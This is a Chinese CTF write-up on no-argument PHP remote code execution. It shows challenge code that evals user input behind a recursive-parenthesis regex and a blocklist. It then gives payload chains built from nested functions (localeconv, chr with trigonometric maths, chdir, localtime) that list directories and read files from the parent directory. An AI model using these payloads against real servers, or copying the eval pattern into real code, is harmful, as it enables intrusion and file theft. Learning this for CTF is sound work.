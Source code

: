 # 关于CTF当中的无参数RCE

最近打了一场校内的比赛，又遇到了无参数RCE。

所以记录一下无参数rce的做法

## 什么是无参数

首先先看这个正则表达式`/[^\W]+\((?R)?\)/`

这个正则是对`()`的一个循环匹配，从传过来的参数当中进行匹配，匹配字母、数字、下划线，然后再匹配一个循环的`()`，将匹配的替换为空，判断剩下的是否只剩下`;`。

也就是说括号当中不能含有参数，这就是无参数。

## 例一：

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
?> 
```

这道题就是一道无参数RCE的题，只是没有对函数进行过滤

无参数的题最重要的就是如何构造出`.`

**localeconv()**

localeconv() 函数返回一包含本地数字及货币格式信息的数组，且第一个元素为点（.)。

![image-20210410180114692](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180114692.png)

**pos()**

pos() 函数返回数组中的当前元素的值（取第一个元素）。

![image-20210410180209879](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180209879.png)

这样就构造出`.`来了

**scandir()**

scandir() 函数返回指定目录中的文件和目录的数组。

![image-20210410180639310](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180639310.png)

这样就可以查看目录下的文件了

```
?code=var_dump(scandir(pos(localeconv())));
```

![image-20210410181254178](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181254178.png)

再利用end函数就可以将数组指针指向最后

![image-20210410181406631](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181406631.png)

**读取文件**

readfile — 输出文件

highlight_file — 语法高亮一个文件

show_source — 别名highlight_file()

file_get_contents — 将整个文件读入一个字符串

**readgzfile（）**可用于读取非gzip格式的文件。在这种情况下， **readgzfile（）**将直接从文件读取而不进行解压缩。

## 例二：

```php
<?php
if ($login && isset($_GET['code'])) {
    if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
        if (!preg_match('/highlight_file|localeconv|pos|curret|chdir|localtime|time|session|getallheaders|system|array|implode/i', $_GET['code'])) {
            eval($_GET['code']);
        } else {
            echo "含有危险函数" . "<br/>";
        }
    } else {
        echo "不符合正则表达式" . "<br/>";
    }
}
?>
```

这一题过滤掉了很多的函数

不能用`localeconv`来构造`.`了

**chr()**

chr() 函数从指定的 ASCII 值返回字符。

利用这个函数只要构造出`46`来就可以构造出`.`了

![image-20210410193718817](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410193718817.png)

phpversion()会返回php版本，如`5.6.27`

`floor(phpversion())`返回`5`

`sqrt(floor(phpversion()))`返回`2.2360679774998
`

`tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`

`cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`

`sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`

`ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`

即：`chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`等于`.`

还有一个方法也可以构造出`.`来

```
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

- `hebrevc(crypt(arg))`可以随机生成一个hash值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过ord chr只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。

**hebrevc()**：将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符，返回视觉顺序字符串。

不过这个办法不是每一次都能构造出来

![image-20210410194214795](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194214795.png)

![image-20210410194224286](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194224286.png)

需要多试几次才行

## 其他构造方法

- 利用三角函数构造斜杠

```
chr(floor(tan(tan(atan(atan(ord(cos(fclose(tmpfile())))))))));
```

- 利用随机令牌构造点

```none
echo(implode(scandir(chr(strrev(uniqid())))));
```

- 利用当前秒数构造点

```
chr(pos(localtime()));
```

## 其他情况

如果文件不在数组的最后，而是在别的位置则可以利用这些函数

`array_rand()`-返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。

`array_reverse()`-以相反的元素顺序返回数组

`current() `- 返回数组中的当前元素的值

`end()`- 将内部指针指向数组中的最后一个元素，并输出

`next()`- 将内部指针指向数组中的下一个元素，并输出

`prev() `- 将内部指针指向数组中的上一个元素，并输出

`reset()` - 将内部指针指向数组中的第一个元素，并输出

`each() `- 返回当前元素的键名和键值，并将内部指针向前移动



- 假设flag在上层目录文件的情况，我们需要跳转到上层目录。
- `chdir()`函数当参数为两个点的时候能够跳转到上层目录。`scandir()`，读取当前目录在第二个元素就能读取两个点
- localtime第一个参数是时间戳，所以我们不能直接嵌套，需要带一个time函数作为嵌套、time函数能够返回时间戳
- 构造读取上层目录payload

```
echo(implode(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv())))))))))));
```

- 构造读取上层目录文件payload

```
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```

